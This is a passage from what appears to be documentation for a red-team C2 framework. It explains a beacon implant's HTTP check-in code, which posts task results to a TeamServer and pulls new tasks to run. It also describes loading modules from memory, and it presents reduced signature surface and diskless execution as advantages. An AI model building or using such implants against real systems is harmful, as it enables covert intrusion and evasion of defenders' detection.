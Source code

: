 Just like the `Listener`, each beacon implementation relies on the common `Beacon` class for all **task-related logic** (such as queuing, execution, and response handling). This allows each beacon variant to focus solely on **its specific communication channel**.

In the case of the **HTTP implementation**, the beacon uses a simple `POST` request to **send data to the TeamServer** (such as check-ins or task results) and **retrieve pending tasking** in return. This clean separation between **core logic** and **transport layer** makes it easy to support additional channels without duplicating task management code.

```c++
class BeaconHttp : public Beacon
{
public:
    BeaconHttp(std::string& config, std::string& ip, int port, bool https=false);
    ~BeaconHttp();

    void checkIn();
};

...

void BeaconHttp::checkIn()
{
    auto httpsUri = m_beaconHttpConfig["uri"];
    std::string endPoint = httpsUri[ rand() % httpsUri.size() ];

    std::string output;
    taskResultsToCmd(output);

    nlohmann::json httpHeaders = m_beaconHttpConfig["client"]["headers"];

    std::string input = HttpsWebRequestPost(m_ip, m_port, endPoint, output, httpHeaders, m_isHttps);
    if (!input.empty())
    {
        cmdToTasks(input);
    }

}
```


### 1) Runtime module loading (MemoryModule)

The beacon is a **small core** whose job is to communicate and **load capabilities at runtime**. Instead of baking every feature into the binary, the TeamServer can send a **module (DLL or SO)** that the beacon **executes from memory** via **MemoryModule**. This gives you:

* **Extensibility on demand.** Add features **without rebuilding** or redeploying the beacon itself.
* **Operational minimalism.** The core beacon stays **small and focused** (transport + messaging + loader), while less-frequent features live in modules that are only loaded when needed.
* **Lower static signature surface.** Fewer embedded features in the base binary means fewer stable byte patterns to match. Modules **vary per operation**, and they aren’t present until you decide to load them.
* **Diskless execution path.** Modules are delivered over the C2 channel and **loaded directly from memory** avoiding on-disk artifacts.
